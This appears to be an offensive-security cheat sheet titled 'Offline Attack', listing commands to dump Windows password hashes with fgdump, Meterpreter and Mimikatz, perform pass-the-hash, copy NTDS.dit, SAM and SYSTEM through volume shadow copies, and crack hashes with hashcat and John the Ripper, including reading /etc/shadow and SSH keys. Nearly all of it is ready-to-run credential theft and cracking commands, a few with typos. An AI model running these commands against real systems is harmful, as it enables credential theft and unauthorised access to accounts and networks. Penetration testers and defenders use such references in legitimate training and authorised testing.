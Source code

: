 # Offline Attack

## Extracting Password Hashes from Windows

### fgdump

Run fgdump to dump local hash

> `fgdump.exe`

### Meterpreter's Hashdump

> `meterpreter > hashdump`

### Mimikatz

> `PS C:\temp\mimikatz> .\mimikatz`

* get debug rights \(this or Local System rights is required for many Mimikatz commands\).
* by default, the Administrators group has Debug rights. Debug still has to be “activated” by running “privilege::debug”.

> `mimikatz # privilege::debug`

* lists all available provider credentials. This usually shows recently logged on user and computer credentials.
* Services running with account credentials are also dumped using this command.
* Note that only services that are running \(credentials in memory\) can be dumped in this manner.

> `mimikatz # sekurlsa::logonpasswords`

#### Pass the Hash with Mimikatz

If you can’t crack the hash of a local administrator account you can instead just inject the hash into memory to gain the privileges:

> `sekurlsa::pth /user:Administrator /domain:{domain name} /ntlm:{ntlm hash here} /run:cmd`

### Volume Shadow Copy Services to copy ntds.dit

```
cscript vssown.vbs /start
cscript vssown.vbs /create
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\NTDS\NTDS.dit c:\
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\System32\config\SYSTEM c:\
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\System32\config\SAM c:\
```

## Hash identification

There are generally speaking three pieces of data we can use to identify a hash.

* The length of the hash
* The character set
* Any special characters

We can use hash-identifier to identify the hash algorithm from the hashed password.

`hash-identifier`

## Cracking the Password

### Hashcat

Put the hashed password file \(test.hash\) and dictionary \(rockyou.txt\) in the same directory and execute the below command:

> `hashcat -m 100 test.hash rockyou.txt`  
> `-m`  
> `-m 100`

### John the ripper \(\*\)

Use the program "unshadow" which is included in John the Ripper to convert obtained /etc/passwd and /etc/shadow files to a combined file for John \(e.g. crackme.txt below\)

> `unshadow /etc/passwd /etc/shadow >> crackme.txt`

Cracking the file generated by unshadow \(**crackme.txt**\) using the wordlist **rockyou.txt** using a dictionary/wordlist brute-force

> `john crackme.txt--wordlist=rockyou.txt`

Convert an encrypted SSH key to a format readable by John

> `ssh2john encrypted-key >> crackme-ssh`

Cracking the file generated by ssh2john \(**crackme-ssh**\) using the wordlist **rockyou.txt** using a dictionary/wordlist brute-force

> `john crackme-ssh --wordlist=rockyou.txt`

Crack MD5 hashes that are in a file called hashes using a dictionary/wordlist brute-force

> `john--format=md5 hashes --wordlist=rockyou.txt`

John configuration file

* Linux

  > john.conf

* Windows 

  > john.ini

john.pot file is where the cracking results stored.

> `john --show [password_file]`

john.rec is the recovery file in the event of a crash. To restore cracking

> `john --restore`

